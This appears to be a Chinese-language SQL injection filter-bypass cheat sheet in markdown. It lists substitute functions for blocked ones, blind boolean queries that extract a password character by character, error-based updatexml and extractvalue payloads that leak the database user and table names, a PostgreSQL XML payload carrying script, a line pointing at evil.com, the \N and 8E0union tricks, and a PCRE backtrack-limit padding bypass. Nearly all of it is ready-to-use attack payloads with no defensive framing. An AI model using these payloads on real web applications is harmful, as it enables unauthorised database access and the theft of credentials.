 

#### 等价函数或变量

```sql
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1 and ascii(lower(mid((select pwd from users limit 1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```



#### 生僻函数

```sql
MySQL/PostgreSQL支持XML函数：Select UpdateXML(‘<script x=_></script> ’,’/script/@x/’,’src=//evil.com’);　　　　　　　　　　

?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))

SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql

?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

and 1=(updatexml(1,concat(0x5c,(select user()),0x5c),1))

and extractvalue(1, concat(0x5c, (select user()),0x5c))
```

#### `\N`绕过

`\N`相当于NULL字符

```sql
select * from users where id=8E0union select 1,2,3,4,5,6,7,8,9,0
select * from users where id=8.0union select 1,2,3,4,5,6,7,8,9,0
select * from users where id=\Nunion select 1,2,3,4,5,6,7,8,9,0
```



#### PCRE绕过

```SQL注入绕过速查表
PHP 的 pcre.backtrack_limit 限制利用
union/*aaaaaaaxN*/select
```
